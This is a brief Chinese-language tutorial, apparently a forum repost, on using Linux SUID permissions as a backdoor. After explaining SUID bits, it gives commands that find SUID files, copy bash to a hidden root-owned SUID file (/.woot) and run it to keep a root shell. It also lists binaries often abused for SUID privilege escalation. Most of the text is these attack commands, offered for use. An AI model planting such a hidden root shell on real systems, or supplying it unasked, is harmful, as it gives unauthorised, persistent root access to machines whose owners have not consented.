


# suid 后门

> 原文：[https://www.zhihuifly.com/t/topic/3502](https://www.zhihuifly.com/t/topic/3502)

## suid 后门

suid说明：

1.  用户或属主对应的前三位权限的x位上如果有s就表示suid权限。当x位上没有小写x执行权限的时候，suid的权限显示的就是大S。

2.  suid作用是让普通用户可以以root（或其他）的用户角色运行只有root（或其他）账号才能运行的程序或命令，或程序命令对应本来没有权限操作的文件等。

先查找具有suid的文件：

```
find / -perm +4000 -ls
find . -perm /4000
find / -user root -perm -4000 -print 2>/dev/null 
```

将具有suid的复制到指定目录，然后再给权限执行。

```
cp /bin/bash /.woot
chmod 4755 /.woot
/.woot -p 
```



列出一些具有suid权限的文件、然后利用一些二进制文件的特性来执行额外的命令。

```
Nmap
Vim
find
Bash
More
Less
Nano
cp 
```

常见的suid提权的程序。

